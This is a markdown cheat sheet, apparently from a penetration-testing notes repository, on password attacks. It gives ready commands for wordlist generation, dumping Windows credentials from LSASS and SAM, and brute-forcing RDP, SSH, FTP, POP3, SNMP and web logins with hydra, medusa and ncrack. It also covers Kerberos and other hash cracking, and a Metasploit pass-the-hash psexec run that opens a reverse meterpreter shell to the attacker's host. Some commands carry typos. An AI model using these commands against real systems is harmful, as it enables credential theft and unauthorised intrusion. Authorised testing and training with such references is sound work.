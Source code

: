 - [Password generator](#Password-generator)
- [Windows](#Windows)
- [Password cracking](#Password-cracking)
- [Password hash cracking](#Password-hash-cracking)
- [Pass the hash](#Pass-the-hash)
- [SSH key cracking](#SSH-key-cracking)
- [Usefull tools](#Tools)
 
# Password generator

Crunch: 
  - is a wordlist generator where you can specify a standard character set or a character set you specify.

- crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
- crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
- special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
  
Cewl:
- cewl <victim_www_url> -d [num] -m [num] -w [file.txt]
------------------------------------------------------------------------------------------------------------------------
# Windows  

- pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

- WCE
- WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***
------------------------------------------------------------------------------------------------------------------------
# Password cracking

- HTTP
```
medusa -h [url] -u [user_name] -p [password_file.txt] -M http
- hydra [target_url] -l [user_name] -P [password_file] https-post-form 
/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```
- RDP
```
ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]
```
- SNMP 
``` 
hydra -P [password-file.txt] -v [victim_ip] snmp
```
- SSH 
```
hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh
```
- FTP 
```
hyrda -L [user_file] -p [password] [victim_ip] ftp
```
- POP3 
```
hyrda -L [user_file] -P [password_file.txt] [victim_ip] -s [victim_port] -t 50 -I pop3

Usefull flag
- -vV : verbose mode
- -e nsr : login as password or login as password in reversed order etc
- -t : threads
```
------------------------------------------------------------------------------------------------------------------------
# Password hash cracking

- Hash identifier
```
usage: 

hash-identifier
```
- MD5
```
john --format=raw-md5 --wordlist=rockyou.txt [hash.file]
```
- SHA1
```
john --format=raw-sha1 --wordlist=rockyou.txt [hash.file]
```
- SHA256
```
john --format=raw-sha256 --wordlist=rockyou.txt [hash.file]
```
- SHA512
```
john --format=raw-sha512 --wordlist=rockyou.txt [hash.file]
```
- krb5tgs 
```
hashcat -m 13100 --force -a 0 hashes.file passwords.txt 

john --format=krb5tgs --wordlist=passwords.txt hashes.file
```
- AS REP
```
john --wordlist=passwords_kerb.txt hashes.file

hashcat -m 18200 --force -a 0 hashes.file passwords.txt
```
------------------------------------------------------------------------------------------------------------------------
# Pass the hash

- Dump the contents of local SAM file, which contains the hashed(NTLM) passwords for every local account on the machine
```
meterpreter> hashdump
```

- psexec via msfconsole
```
msf> search psexec

msf> use exploit/windows/smb/psexec

msf> set payload widnows/meterpreter/reverse_tcp
msf> set LHOST <your_ip>
msf> set LPORT <your_port>
msf> set RHOST <target_ip>
msf> set SMBPass e.g (e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c)
msf> exploit
```

------------------------------------------------------------------------------------------------------------------------

# SSH key cracking

#### Cracking encrypted private key
- Tool: ssh2john.py
```
ssh2john.py encrypted-private-key > private-key.john
```

- Tool: john
```
john --wordlist=/usr/share/wordlists/rockyou.txt private-key.john
```

#### Unencrypted copy of the key
- Tool: openssl
```
openssl rsa -in encrypted-private-key -out id_rsa
```

- Tool: chmod
```
chmod 600 id_rsa
```

#### Login with id_rsa
```
ssh -i id_rsa user-name@<ip>
```

------------------------------------------------------------------------------------------------------------------------
# Tools
#### ssh2john
- https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
